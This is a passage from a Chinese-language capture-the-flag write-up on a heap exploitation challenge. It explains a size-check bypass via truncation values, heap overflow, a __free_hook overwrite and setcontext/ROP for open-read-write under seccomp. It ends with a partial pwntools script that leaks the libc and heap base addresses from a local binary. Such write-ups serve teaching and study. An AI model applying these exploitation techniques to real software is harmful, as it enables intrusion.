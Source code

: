 这时候就需要确定一下咱们的操作，我们在虚拟机程序上有add read delete show，后面三者一定要通过add“注册”的地址看似听安全但是别忘了我们还有前文提到的size截断/类型漏洞。我们可以用截断也可以用类型来绕过`size`大小检查，`0x80000001`和`0x100000001`都可以绕过。这样我们就有了`heap overflow`，之后就可以`arbitrary address write`了，通过rop我们可以写掉`_free_hook`，这样就可以到最后一关，`seccomp`。

虽然我感觉这个加上去没啥必要，但是这题从逆向就预示了：`it‘s a hardworking one.`

# 0x4 trap&final pwnch

比赛的时候我就在终点前卡住了，因为我一直搞不懂为啥我`read(0,heap,0x80000001)`可以读进去，但是`read(0,__free_hook,0x80000001)`就会失败，因为我准备的`cheatsheet`里是直接改`__free_hook`的，之后慌乱之中把我的`docker`搞崩了直接宣告我的失败。

比赛结束后我研究了下是因为`__free_hook`的地址+`0x80000001`不能通过`sys_read`的`access_ok`检查，简单来说就是`addr+size`不能`wrap`且必须在`task_size`内，这个`task_size`定义太多就没看，手动测了一下应该是`stack`的末尾。

```bash
static inline int __access_ok(unsigned long addr, unsigned long size)
{
	return __addr_range_nowrap(addr, size) &&
		(__under_task_size(addr, size) ||
		__access_ok_vsyscall(addr, size) ||
		uaccess_kernel());
}
```

这样其实我只要改一下`payload`就行，在`__free_hook`填`gadget`，在`heap`上布置`payload`来`setcontext` 之后`call`一个`rop` 做 `orw`。

# 0x5 Exp

就放个调试版的`exp`，最后远端打还需要调一下（其实是我太懒）

```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(idx,size,c=p64(0xdeadbeef)):
	cmd(1)
	p.sendlineafter(": ",str(idx))
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
def free(idx):
	cmd(4)
	p.sendlineafter(": ",str(idx))
def show(idx):
	cmd(2)
	p.sendlineafter(": ",str(idx))
context.arch='amd64'
context.log_level='debug'
context.terminal=['tmux','split','-h']
p=process("./pwn")#,env={'LD_PRELOAD':'./libc-2.31.so'})
add(0,0x18,"A")
show(0)
p.readuntil("content: ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7ffff7fbab41-0x7ffff7dcf000)
log.warning(hex(base))
libc=ELF("/lib/x86_64-linux-gnu/libc-2.31.so")
libc.address=base
add(1,0x18,"B")
free(1)
free(0)
add(0,0x18,"A")
show(0)
p.readuntil("content: ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x441
log.warning(hex(heap))
```